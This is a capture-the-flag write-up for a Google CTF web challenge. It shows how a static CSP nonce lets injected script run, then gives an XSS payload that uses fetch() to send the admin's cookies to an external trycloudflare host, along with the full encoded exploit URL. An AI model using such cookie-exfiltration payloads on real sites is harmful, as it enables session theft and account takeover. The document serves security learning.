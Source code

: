 # falling slowly... again - google ctf - web

This site boasts a defense against XSS, but its security is like a falling leaf – slow and predictable. It relies on a mechanism that, while sound in theory, has a fatal flaw in its execution. Can you exploit this weakness to inject your own malicious code and take control?


When testing for an XSS with the usual 

```
<script>alert()</script>
```

XSS payload, I see that it is loaded into the page but the script doesn't function. Opening up devtools gives us the following CSP error:

![csp](https://github.com/user-attachments/assets/da97b2b2-8106-45d4-9d5b-8a0908cabf5a)

Nonce is like a key that must be presented in order for script to be run inline.

To bypass this, we just have to include the nonce value in the payload:

```
<script nonce=bO4ppxGUAjltHc4UXpjG6ggg>alert()</script>
```

Success:

![alert](https://github.com/user-attachments/assets/afea90bc-e4cf-4225-80da-28c264ea8be0)


From here, the cookies for the admin seem like the logical place for the flag so I create a new payload that will fetch a domain under my control with the cookie included as part of the request. The payload to first add into the "name" parameter:

```
<script nonce=bO4ppxGUAjltHc4UXpjG6ggg>fetch('https://performer-disagree-nor-agency.trycloudflare.com/'+document.cookie)</script>
```

Next we send the XSS url to the admin:

```
https://once-web.2024-bq.ctfcompetition.com/?name=%3Cscript+nonce%3DbO4ppxGUAjltHc4UXpjG6ggg%3Efetch%28%27https%3A%2F%2Fperformer-disagree-nor-agency.trycloudflare.com%2F%27%2Bdocument.cookie%29%3C%2Fscript%3E
```

And the result from a python listener:

![flag](https://github.com/user-attachments/assets/d184eed2-a939-4290-9657-497b3da4676b)


# Resources/Learning

- CSP - nonce
